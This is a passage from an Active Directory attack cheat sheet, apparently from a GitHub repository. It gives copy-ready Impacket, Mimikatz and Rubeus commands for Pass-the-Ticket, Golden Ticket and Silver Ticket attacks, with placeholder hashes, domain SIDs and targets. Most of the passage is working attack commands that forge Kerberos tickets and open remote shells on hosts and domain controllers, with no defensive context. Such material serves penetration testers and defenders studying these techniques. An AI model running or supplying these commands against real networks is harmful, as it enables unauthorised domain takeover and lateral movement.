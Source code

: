 ### **2. Pass-the-Ticket**

#### **Linux:**
```bash
# Impacket
ticketer.py -nthash KRBTGT_HASH -domain-sid DOMAIN_SID -domain domain.com username
export KRB5CCNAME=username.ccache
psexec.py domain.com/username@TARGET_IP -k -no-pass
```

#### **Windows:**
```powershell
# Mimikatz
kerberos::ptt ticket.kirbi

# Rubeus
.\Rubeus.exe ptt /ticket:ticket.kirbi
```

---

## 👑 **Privilege Escalation**

### **1. Golden Ticket**

#### **Linux:**
```bash
# Impacket
ticketer.py -nthash KRBTGT_HASH -domain-sid DOMAIN_SID -domain domain.com Administrator
export KRB5CCNAME=Administrator.ccache
psexec.py domain.com/Administrator@DC_IP -k -no-pass
```

#### **Windows:**
```powershell
# Mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:DOMAIN_SID /krbtgt:KRBTGT_HASH /ptt
```

### **2. Silver Ticket**

#### **Linux:**
```bash
# Impacket
ticketer.py -nthash SERVICE_HASH -domain-sid DOMAIN_SID -domain domain.com -spn SERVICE/TARGET Administrator
export KRB5CCNAME=Administrator.ccache
```

#### **Windows:**
```powershell
# Mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:DOMAIN_SID /target:TARGET /service:SERVICE /rc4:SERVICE_HASH /ptt
```
